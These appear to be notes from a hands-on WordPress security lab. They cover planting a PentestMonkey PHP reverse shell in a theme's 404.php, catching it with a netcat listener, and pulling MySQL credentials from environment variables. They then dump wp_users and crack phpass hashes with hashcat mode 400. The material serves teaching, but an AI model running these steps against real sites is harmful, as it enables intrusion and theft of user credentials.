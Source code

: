 ## Cryptographic Failures (WordPress Lab)

- ⚠️ Best to watch the video — this is a hands-on lab.
    

---

### 1. Exploiting the Theme

- Edit the `404.php` file in WordPress 2021 theme
    
- Add a PHP reverse shell (e.g., PentestMonkey)
    
- Listener:
    
    ```bash
    nc -nvlp 8000
    ```
    
- Get your IP via:
    
    ```bash
    ip a
    ```
    

---

### 2. Reverse Shell Access

- Once triggered, you’ll get a shell on the container
    
- Access WordPress files like `wp-config.php`
    
- Extract MySQL credentials (usually from environment variables):
    
    ```bash
    env
    ```
    

---

### 3. MySQL Access

```bash
mysql -u wordpress -h db -p
# password as shown in the env variables
```

Example SQL commands:

```sql
use wordpress;
show tables;
select * from wp_users;
exit;
```

---

### 4. Hash Cracking

- WordPress stores **hashed passwords**
    
- Dumped user hashes (like `password123`) use the **phpass** algorithm
    

Use Hashcat:

```bash
# Mode 400 is phpass
hashcat -a 0 -m 400 will.hash ~/usr/share/..../best1050.txt
```

---

### Why This is a Crypto Failure?

Because of:
- Weak password
- Weak hash format